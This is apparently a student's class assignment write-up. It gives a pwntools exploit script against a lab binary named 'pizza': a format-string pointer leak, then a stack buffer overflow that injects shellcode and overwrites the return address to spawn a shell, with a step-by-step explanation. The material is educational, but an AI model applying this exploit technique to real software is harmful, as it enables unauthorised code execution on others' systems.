

# Assignment 10

## Code
```python
#!/usr/bin/python3

from pwn import *

# Print out the stack before and after the passed RSP
def print_stack(rsp, num_words):
    orig_rsp = rsp
    start_address = rsp + int((8*num_words)/2)
    end_address = rsp - int((8*num_words)/2)
    rsp = start_address
    while rsp > end_address:
        data = core.read(rsp, 8)
        print(f"0x{rsp:x}:\t{data}", end='')
        if rsp == orig_rsp:
            print(" <=")
        else:
            print("")
        
        rsp -= 8


# Executable and Linkable Format
elf = ELF("./pizza")
context(arch='amd64', os='linux', endian='little', word_size=64)
getname_address = elf.symbols["getname"]


# Get our shellcode to-be-executed
shellcode = asm(shellcraft.amd64.linux.sh())


# "Name" Input -- actually prints out some pointers
input1 = b"%p %p %p %p %p %p %p %p %p %p %p"

# Number of Pizzas Input
input2 = b"8"


victim = process("./pizza")

# Get Introduction Line
print(str(victim.recvline(), "latin-1"))

# Send our "Name" -- actually "%p"s
victim.sendline(input1)

# "Hi ...."
percent_p_output_str = str(victim.recvline(), "latin-1")
print(percent_p_output_str)


# Gets an address from stack -> exactly 224 bytes away from start of shellcode
percent_p_output = percent_p_output_str.split(" ")
a_stack_ptr = int(percent_p_output[2], base=16)


# Send the # of Pizzas
victim.sendline(input2)


# Calculate our shellcode address and format our input
shellcode_addr = a_stack_ptr + 224
input3 = shellcode + b"A"*88 + shellcode_addr.to_bytes(8, 'little')


# Send our "Credit Card Number" -- actually our shellcode, buffer, and new return address
victim.sendline(input3)


# Should only be called if buffer overflow was successful
victim.interactive()

# Otherwise, we crashed, and the following is done:
victim.wait()

# Get the coredump file
core = victim.corefile
rsp = core.rsp
rbp = core.rbp
rip = core.rip

# Print out the stack around our stack pointer at crash
print_stack(rsp, 100)

exit()
```


## Explanations

### How I Designed My Code
I designed my code heavily following the method we talked about in class and outlined in the assignment instructions. I started out by attempting to get some pointers out of the code -- which I achieved through the "insert your name:" field of the pizza program. If a user puts any number of `%p`s into this input field, the program will print out various pointers. I ended printing out multiple pointers and after running the program a couple of times, I noticed some reoccuring formats of pointers (and there are a lot larger than the other values) and determined these to be stack pointers. Here is an example of the output:



Then, I proceeded to work on crashing the program -- which I managed to do through execessive input into the "credit card number for payment" input field. I then used the tried-and-true, professional, method of guess-and-check to see exactly how many bytes I was able to enter into the buffer before it crashed. After a couple of iterations, I determined that the program will crash if I, into the credit card number buffer, inputted my shellcode and 88 other characters (`A`s in my case). And, if I inputted less than 88 characters, we would not crash. With this knowledge I knew that this position on the stack is where the return address is located -- and therefore the location I need to overwrite.

With this knowledge, I moved onto the next step -- determining what return address I need to put into that location. I needed to put the location of my shellcode into that slot, and therefore needed to find the location of my shellcode. I did this by reading the output from the coredump file. I created some code to print out the contents of the stack (the address and the value there) and looked for my shellcode. Then, after finding my shellcode, which started with `jhH\xb8/bin` in my output, I noted the stack address of this word. I then did some simple subtraction between the shellcode address and the leaked pointer from the name input buffer and found out that the shellcode is exactly 224 bytes away from the second pointer leaked in the first input field. I through this process multiple time and each time the difference was 224 bytes. An example shellcode address output:


And when combined with the information in the first image:
```python
shellcode =   0x7ffc87d496a0
a_stack_ptr = 0x7ffc87d495c0
print(shellcode - a_stack_ptr) # Prints out '224'
```

Finally, since I could calculate the address of my inputted shellcode, I added that shellcode address (which was the leaked pointer + 224) to the end of my input into the credit card number input field, thereby overwritting the return address to the address of my shellcode.


### What My Code is Doing
My code first sets up the environment for python's `pwntools` package to run. Then, my code gets the byte-code from some shellcode from the same `pwntools` package. My program then defines some input for the reasons as noted in the section above -- specially a string of `%p`s to input into the name input field. Next, my code starts the `pizza` program, and sends it the string of `%p`s. My program then gets the output from the pizza program and saves the second leaked pointer -- which through previous program runs I determined to be a stack pointer. Then, the number of pizzas is inputted (which is not important), and then we start do some calculations. The program takes the leaked stack pointer that we saved, and add 224 to it -- thereby creating the address of my shellcode I am about to input. Then I create my input string, which includes the shellcode, the 88-byte buffer of `A`s, and the address of the shellcode. The program then sends this byte string to the pizza program, which overwrites the original return address of the pizza program and returns instead to my inputted shellcode. I then call `vicitim.interactive` in my program, which gives terminal control (STDIN) back to me on the keyboard, allowing me to interactive with the newly spawned shell.

In the case the program crashes (too much input, for example), the core file is analyzed and 50 words (400 bytes) are read before the stack pointer and 50 words after the stack pointer, and printed out to the screen for analysis.